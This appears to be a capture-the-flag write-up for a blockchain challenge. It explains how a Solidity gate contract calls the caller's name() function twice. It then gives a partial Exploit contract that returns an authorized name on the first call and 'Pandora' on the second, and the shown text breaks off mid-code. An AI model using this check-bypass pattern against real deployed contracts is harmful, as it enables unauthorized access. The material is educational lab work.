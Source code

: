 * **Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

* **Category:** Blockchain

* **Difficulty:** Easy

In this challenge, the objective is to trick the `HighSecurityGate` contract, making its lastEntrant equal to `Pandora`. The `Setup` contract imports and initializes the `HighSecurityGate` contract. The `isSolved()` function checks if the lastEntrant variable in the `HighSecurityGate` contract is equal to `Pandora`.
```solidity
    function isSolved() public view returns (bool) {
        return TARGET.strcmp(TARGET.lastEntrant(), "Pandora");
    }
```
The `HighSecurityGate` contract has an array of authorized names (Orion, Nova, and Eclipse), and the `enter()` function checks if the name returned by the Entrant interface implementation matches any of the authorized names. If it does, the lastEntrant variable is updated with the returned name.
```solidity
    string[] private authorized = ["Orion", "Nova", "Eclipse"];
    string public lastEntrant;

    function enter() external {
        Entrant _entrant = Entrant(msg.sender);

        require(_isAuthorized(_entrant.name()), "Intruder detected");
        lastEntrant = _entrant.name();
    }

    function _isAuthorized(string memory _user) private view returns (bool){
        for (uint i; i < authorized.length; i++){
            if (strcmp(_user, authorized[i])){
                return true;
            }
        }
        return false;
    }
 ```
To exploit this setup, an `Exploit` contract is created, implementing the Entrant interface with a `name()` function that returns an authorized name on the first call and `Pandora` on the second call. This contract also has a `pwn()` function that calls the `enter()` function of the `HighSecurityGate` contract, with the Exploit contract acting as the sender. This is the `Exploit` contract:

```solidity
pragma solidity ^0.8.18;

import "./Setup.sol";

interface Entrant {
    function name() external returns (string memory);
}

contract Exploit is Entrant {
    address payable public targetAddr;
    Setup targetContract;
    bool public first;

    constructor(address payable _addr) payable {
        targetAddr = payable(_addr);
        targetContract = Setup(targetAddr);
        first = true;
    }

    function name() external returns (string memory){
        if (first) {
```
